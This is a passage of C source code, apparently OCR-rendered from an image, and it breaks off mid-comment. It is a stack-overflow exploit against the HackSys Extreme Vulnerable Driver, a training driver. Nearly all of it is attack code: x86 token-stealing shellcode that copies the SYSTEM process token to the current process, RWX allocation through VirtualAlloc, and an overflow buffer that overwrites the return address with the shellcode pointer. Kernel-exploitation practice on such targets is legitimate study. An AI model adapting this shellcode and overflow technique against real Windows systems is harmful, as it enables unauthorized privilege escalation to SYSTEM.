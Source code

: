         FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
        NULL
    );

    if (driverHandle == INVALID_HANDLE_VALUE) {
        printf("[!] FATAL: Could not open HEVD handle\n");
        return;
    }


    char shellcode [] =
        "\x60"                            // pushad
        "\x31\xc0"                        // xor eax,eax
        "\x64\xa1\x24\x01\x00\x00"        // mov eax,[fs:eax+0x124]
        "\x8b\x40\x50"                    // mov eax,[eax+0x50]
        "\x89\xc1"                        // mov ecx,eax
        "\xba\x04\x00\x00\x00"            // mov edx,0x4
        "\x8b\x80\xb8\x00\x00\x00"        // mov eax,[eax+0xb8]
        "\x2d\xb8\x00\x00\x00"            // sub eax,0xb8
        "\x39\x90\xb4\x00\x00\x00"        // cmp [eax+0xb4],edx
        "\x75\xed"                        // jnz 0x1a
        "\x8b\x90\xf8\x00\x00\x00"        // mov edx,[eax+0xf8]
        "\x89\x91\xf8\x00\x00\x00"        // mov [ecx+0xf8],edx
        "\x61"                            // popad
        "\x31\xc0"                        // xor eax,eax
        "\x5d"                            // pop ebp
        "\xc2\x08\x00";                   // ret 0x8

    /*
    LPVOID WINAPI VirtualAlloc(
      _In_opt_ LPVOID lpAddress,
      _In_     SIZE_T dwSize,
      _In_     DWORD  flAllocationType,
      _In_     DWORD  flProtect
    );
    */
    LPVOID userBuffer = VirtualAlloc(0,
                                  sizeof(shellcode),
                                  MEM_COMMIT | MEM_RESERVE,
                                  PAGE_EXECUTE_READWRITE);
    if (!userBuffer) {
        printf("Error allocating the user buffer\n");
        exit(1);
    }

    printf("[*] userBuffer @ %p\n", userBuffer);

    memcpy(userBuffer, shellcode, sizeof(shellcode));

    LPVOID payload_ptr = NULL;
    payload_ptr = userBuffer;


    const size_t bufSize = RET_OFFSET + sizeof(DWORD);
    char* lpInBuffer = (char*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bufSize);

    RtlFillMemory(lpInBuffer, bufSize, 0x41);

    DWORD* address_field = (DWORD*)(lpInBuffer + RET_OFFSET);
    *address_field = (DWORD)(payload_ptr);

    /*
        BOOL WINAPI DeviceIoControl(
          _In_        HANDLE       hDevice,
          _In_        DWORD        dwIoControlCode,
          _In_opt_    LPVOID       lpInBuffer,
          _In_        DWORD        nInBufferSize,
          _Out_opt_   LPVOID       lpOutBuffer,
          _In_        DWORD        nOutBufferSize,